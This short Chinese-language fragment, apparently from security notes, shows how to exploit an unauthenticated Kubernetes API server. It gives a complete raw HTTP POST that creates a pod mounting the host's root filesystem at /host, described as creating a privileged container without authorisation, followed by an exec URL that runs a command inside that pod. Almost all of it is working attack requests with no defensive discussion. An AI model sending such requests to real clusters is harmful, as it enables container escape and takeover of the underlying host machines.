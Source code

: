 ![在这里插入图片描述](assets/1711471683-b6e9c06969140bf7ef680c4609b62043.png)  
可以通过未授权创建特权容器

```plain
POST /api/v1/namespaces/default/pods/test02 HTTP/1.1
Host: 192.168.125.129:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 691

{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test02\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test02\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test02","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test02","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}
```

执行命令

```plain
https://192.168.4.110:6443/api/v1/namespace/default/pods/test02/exec?command=whoami
```
